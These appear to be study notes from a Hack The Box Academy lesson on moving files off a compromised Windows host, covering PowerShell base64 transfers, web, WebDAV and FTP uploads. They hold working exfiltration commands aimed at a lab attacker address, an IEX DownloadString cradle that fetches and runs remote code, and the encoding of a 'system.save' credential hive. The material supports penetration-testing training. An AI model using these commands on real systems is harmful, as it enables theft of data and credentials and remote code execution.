 ![](https://academy.hackthebox.com/storage/modules/24/WIN-download-PwnBox.png)

==PowerShell Base64 Encode & Decode==
```powershell-session
PS C:\htb> [Convert]::ToBase64String((Get-Content -path "system.save" -Encoding byte))


PS C:\htb> Get-FileHash "users.db" -Algorithm MD5 | select Hash
```

```shell-session
Orbixio@htb[/htb]$ echo <base64 goes here> | base64 -d > hosts

Orbixio@htb[/htb]$ md5sum hosts 
```

==PowerShell Web Uploads==

```shell-session
Orbixio@htb[/htb]$ python3 -m uploadserver
```

Now we can use a PowerShell script [PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1) which uses `Invoke-RestMethod` to perform the upload operations. The script accepts two parameters `-File`, which we use to specify the file path, and `-Uri`, the server URL where we'll upload our file.

```powershell-session
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('<url hosting PSUpload.ps1>')
PS C:\htb> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

==PowerShell Base64 Web Upload==

```shell-session
Orbixio@htb[/htb]$ nc -lvnp 8000
```

```powershell-session
PS C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\htb> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

==SMB Uploads (WebDAV)==

```shell-session
Orbixio@htb[/htb]$ sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```

```cmd-session
C:\htb> dir \\192.168.49.128\DavWWWRoot
```

**Note:** If there are no SMB (TCP/445) restrictions, you can use impacket-smbserver the same way we set it up for download operations.

==FTP Uploads==

```shell-session
Orbixio@htb[/htb]$ sudo python3 -m pyftpdlib --port 21 --write
```

```powershell-session
PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

#### Create a Command File for the FTP Client to Upload a File

```cmd-session
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```

